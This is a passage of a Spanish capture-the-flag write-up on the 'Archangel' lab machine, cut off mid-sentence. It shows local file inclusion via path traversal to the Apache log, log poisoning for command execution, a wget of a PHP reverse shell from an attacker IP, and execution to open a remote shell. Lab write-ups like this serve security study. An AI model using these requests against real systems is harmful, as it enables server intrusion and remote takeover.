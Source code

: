 La máquina [[MAQUINA ARCHANGEL (Fuzzing, Local File Inclusion con wrappers, log poissoning y manipulación del PATH)]] tiene esta vulnerabilidad, por lo que el archivo del log se encuentra en esta ruta:
```python
http://mafialive.thm/test.php?view=/var/www/html/development_testing/.././.././.././../././var/log/apache2/access.log
```
![[Pasted image 20230625161757.png]]
Por tanto, una vez visto esto, podemos ejecutar comandos de forma remota concatenando un cmd=whoami dentro del log:
```python
http://mafialive.thm/test.php?view=/var/www/html/development_testing/.././.././.././.././.././var/log/apache2/access.log&cmd=whoami
```
![[Pasted image 20230625162414.png]]
Ahora que tenemos ejecución remota de comandos, podemos enviar un archivo .php malicioso mediante el comando wget y después ejecutarlo para que nos envíe una reverse shell, por lo que usaremos el php del repositorio de pentestmonkey:
```python
https://github.com/pentestmonkey/php-reverse-shell
```
![[Pasted image 20230625162924.png]]
Nos lo descargamos y modificamos la parte de l IP y la parte del puerto:
![[Pasted image 20230625163029.png]]
Por tanto nos montamos un servidor web HTTP con python compartiendo este archivo:
![[Pasted image 20230625163652.png]]
Lo descargamos en la máquina víctima:
```python
http://mafialive.thm/test.php?view=/var/www/html/development_testing/.././.././.././.././.././var/log/apache2/access.log&cmd=wget 10.8.100.91/php-reverse-shell.php
```
Le damos permisos chmod 777:
```python
http://mafialive.thm/test.php?view=/var/www/html/development_testing/.././.././.././.././.././var/log/apache2/access.log&cmd=chmod 777 php-reverse-shell.php
```
Nos ponemos en escucha con netcat:
![[Pasted image 20230625163814.png]]
Y lo ejecutamos para recibir la reverse shell:
```python
http://mafialive.thm/test.php?view=/var/www/html/development_testing/.././.././.././.././.././var/log/apache2/access.log&cmd=php php-reverse-shell.php
```
![[Pasted image 20230625163930.png]]
Una vez dentro, tras hacer una serie